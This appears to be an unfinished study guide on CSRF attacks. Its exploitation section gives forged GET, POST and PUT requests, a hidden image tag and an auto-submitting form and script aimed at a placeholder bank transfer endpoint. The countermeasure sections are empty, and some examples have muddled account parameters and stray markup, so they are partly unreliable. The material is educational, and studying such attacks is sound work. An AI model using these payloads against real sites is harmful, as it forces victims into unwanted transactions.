# CSRF - Cross Site Request Forgery
## Plan
* Lexic
* Overview 
   * Acronyms - Definition
   * Exploitability
   * Impact
   * Components (server, client, etc)
   * Types 
* Vulnerability exploitation samples
* Presence detection
* Countermeasures guidelines
   * Server side
   * Client side
   * Possible policy(ies)
* Countermeasures implementation
* Common exploitation tools 
--------
# Overview
## Acronyms - Definition
**CSRF** stands for **C**ross **S**ite **R**equest **F**orgery. It is often abbreviated as **XSRF** and is also known as **one-click attack** or **session riding**. **CSRF** is an attack that forces an end user to **execute unwanted actions** on a web application in which they're **currently authenticated**. **CSRF** attacks specifically target state-changing requests, not theft of data, since the attacker has no way to see the response to the forged request. With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker's choosing. If the victim is a normal user, a successful **CSRF attack** can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, **CSRF** can compromise the entire web application. 

## Exploitability
Attacker creates forged HTTP requests and tricks a victim into submitting them via image tags, XSS, or numerous other techniques. * If the user is authenticated, the attack succeeds. The main limitation on the success of a **CSRF** attack is the **vicitm's authentication**. 
* An other important point in this kind of attack consists in findind and setting properly the malicious hyperlink : using the **right paramreters**.
* In addition to that, the attacker must find a **very efficient method to lure the victim enough** so that he/she to click or open the malicious content proposed.

## Impact 
The following is a list of potential uses for CSRF:
* Transfer money from one bank account to another.
* Use a content management system to add/delete content from a website.
* Change a user’s password.
* Data breaches 
* Add items to a user’s shopping basket.
* Change the delivery address of an orde

## Components
As in common web attacks, the main components in **XSRF** attacks are **client** (web browser) and (web) **server**.
A description of each component will be based on the example below (taken from [incapsula](https://www.incapsula.com/web-application-security/csrf-cross-site-request-forgery.html))
![CSRF attack components and steps](items/csrf.png)
***Explaination***
1. The attack perpetrator builds a malicious link embedding a **fund transfer** performance : this the attack. This action can be only performed by the owner of the account that will undergo the transfer. 
2. As the attacker is the owner, he sends this link to a web visitor by **email** for instance. 
3. The **logged visitor clicks** on the hyperlink and **triggers** the request for funds transfer. And he is logged, the transfer will be realized with his prilege, thus, on his account. This request is sent to the **server** of his bank.
4. The visitor's request is processed by the bank's website and the transfer is done.

***Note*** 

The arrow originating from the **Website** doesn't mean that the result a **CSRF** attack is always notified to the **attacker**. But in this case, it is there to show that the transfer is made from the **Website visitor** to the **attacker**.
In our example, the **Website visitor** is the **client** and the **website** is the **server**.

## CSRF Types 
### One stage CSRF
**One step CSRF** is when the action trigered by the hacker link doesn't need more action to be performed. So in this kind of CSRF the hacker just need to forged a link and send it to the the victim. 

### Multi staged CSRF 
In **multi-step CSRF** the action trigered by the hacker link needs more actions from the victim to be completed.So here, the hacker will forged multi links triggered by time or by others events in order for the CSRF to be completely done.
![CSRF multi-steps](items/image.png)

# Exploitation samples
## GET scenario
In this part, we will give a technical description of the figure used in the [Components](#components) section. 
In addition to this, the **parameters of mailicious link** are all transmitted via an **HTTP GET** method.
```http
GET http://bank.com/transfer.do?acct=PERPRETOR&amount=100 HTTP/1.1
```
But as mentioned above, the malicious link is **embedded** in something that seems lawful.
The exploit URL can be disguised as an ordinary link, encouraging the victim to click it: 
```html
<a href="http://bank.com/transfer.do?acct=WEBVISITOR&amount=100000">View my Pictures!</a>
```
Or as a **0x0** fake image: 
```html
<img src="http://bank.com/transfer.do?acct=WEBVISITOR&amount=100000" width="0" height="0" border="0">
```
If this image tag were included in the email, the **Website visitor** wouldn't see anything. However, the browser will still submit the request to **bank.com** (the server component) **without any visual indication** that the transfer has taken place. 

## POST scenario
The only difference between **GET** and **POST** attacks is how the attack is being executed by the victim. Let's assume the bank now uses **POST** and the vulnerable request looks like this: 

```http
POST http://bank.com/transfer.do HTTP/1.1

acct=PERPRETOR&amount=100
```
Such a request cannot be delivered using standard **A** or **IMG** tags, but can be delivered using a **FORM** tag: 
```html
<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
  <input type="hidden" name="acct" value="WEBVISITOR"/>
  <input type="hidden" name="amount" value="100000"/>
  <input type="submit" value="View my pictures"/>
</form>
```
This form will require the user to click on the submit button, but this can be also executed automatically using **JavaScript**: 
```javascript
<body onload="document.forms[0].submit()">
/*Here is the prior malicious code*/
<form action="<nowiki>http://bank.com/transfer.do</nowiki>" method="POST">
  <input type="hidden" name="acct" value="WEBVISITOR"/>
  <input type="hidden" name="amount" value="100000"/>
  <input type="submit" value="View my pictures"/>
</form>
```

## Other HTTP methods
Modern web application APIs frequently use other HTTP methods, such as **PUT** or **DELETE**. Let's assume the vulnerable bank uses **PUT** that takes a **JSON** block as an argument: 
```http
PUT http://bank.com/transfer.do HTTP/1.1

{ "acct":"BOB", "amount":100 }
```
Such requests can be executed with JavaScript embedded into an exploit page: 
```javascript
<script>
  function put() {
    var x = new XMLHttpRequest();
    x.open("PUT","http://bank.com/transfer.do",true);
    x.setRequestHeader("Content-Type", "application/json"); 
    x.send(JSON.stringify({"acct":"PERPRETOR", "amount":100})); 
  }
</script>
<body onload="put()">
```
## Presence detection
Detection of **CSRF** flaws is made via **penetration testing** or **code analysis**. 
* **Penetration testing**
* **Code analysis**
# Countermeasures guidelines
## Server side
## Client side
## Policies
# Countermeasures implementation
# Common exploitation tools

